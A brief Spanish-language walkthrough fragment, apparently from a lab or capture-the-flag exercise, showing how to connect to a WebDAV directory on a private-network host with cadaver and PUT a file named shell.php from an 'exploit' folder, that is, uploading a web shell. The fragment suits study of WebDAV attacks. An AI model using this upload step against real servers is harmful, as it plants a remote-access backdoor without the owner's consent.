 ## Iniciar la instancia del script para subir archivos a una web.
*Nota: Se debe indicar que metodo debemos usar para subir un archivo*

`$ cadaver http://192.168.100.17/dav/`

`dav:/dav/> PUT /home/mr-r00t/exploit/shell.php`
